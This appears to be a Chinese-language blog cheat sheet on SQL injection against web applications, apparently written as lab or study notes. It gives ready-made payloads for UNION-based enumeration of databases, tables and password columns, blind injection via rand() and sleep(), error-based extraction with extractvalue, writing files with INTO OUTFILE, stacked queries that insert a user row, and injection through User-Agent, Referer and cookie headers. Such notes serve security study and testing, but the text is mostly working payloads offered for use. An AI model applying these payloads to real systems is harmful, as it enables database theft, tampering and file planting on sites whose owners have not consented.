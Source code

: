 ```yaml
---
published: true
---
```


### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段  
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名  
 例如:  id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名  
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名  
5、知道pass段名有user union select 1，2，3，pass from user  

### Order by注入:  
当原始sql语句是order by时不能使用union等进行注入  
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![](https://ljjbloghub.github.io/img/SQL1.jpg)
   
   (rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。)
2、报错注入  
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+  
3、导入导出文件into outfile参数  
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”
4、延时注入  
？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+
#(如果为假，就会有延迟)，if(判断,sleep(),1)为真会有延迟    

### 堆叠查询：即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
   id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![](https://ljjbloghub.github.io/img/sql2.jpg)

报错信息’）要需求多构造）
![](https://ljjbloghub.github.io/img/sql2.jpg)
### cookie注入：
对cookie的值进行union注入,注意cookie是否经过编码

